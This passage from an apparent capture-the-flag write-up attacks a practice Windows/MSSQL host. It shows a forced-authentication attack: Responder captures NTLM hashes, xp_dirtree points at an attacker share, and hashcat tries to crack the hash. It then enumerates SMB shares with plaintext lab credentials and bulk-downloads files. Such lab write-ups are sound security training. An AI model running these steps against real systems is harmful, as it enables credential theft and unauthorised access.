 We couldn't locate or connect to the SQL Server instance

##### UNC Path Injection 

Last thing to try is to Forced Authentication attack for NTLM Hash Theft of the `SQL_SVC` user hash then try to crack it

+ Utilize Responder to capture a hash via SMB relay 

    ```bash
    sudo responder -I tun0 
    ```

+ Trigger an SMB request from MSSQL 

    ```
    xp_dirtree \\Your_IP\fake\share
    ```
![](https://cdn-images-1.medium.com/max/1000/1*CQjj-i9KJVzrtBo798n43Q.png)

+ Attempt to crack the captured hash using Hashcat, start it with the autodetect mode
```
hashcat hash /usr/share/wordlists/rockyou.txt
```
![](https://cdn-images-1.medium.com/max/1000/1*pVPPkt7ZekRS6PMee9u30Q.png)

Hash exhausted, unable to crack.
![](https://cdn-images-1.medium.com/max/1000/1*IZi_utBhTeeJTN5uxi-WKQ.png)

#### 4. SMB

+ First checking our rights over the shares 
    ```
    smbmap -d sequel.htb -u "rose" -p "KxEPkKe6R8su" -H 10.10.11.51
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*wfxNMrdPDp-O56JbBNBL_w.png)

    We have read permissions over Accounting Department share which is a custom share, the others are default.

+ Access this share

    ```
    smbclient "//10.10.11.51/Accounting Department" -U sequel.htb/rose%KxEPkKe6R8su
    ```


    After connecting i found two xlsx files, download them for check


    ```bash
    recurse on
    prompt OFF
    mget *
    ```
    {: .nolineno }
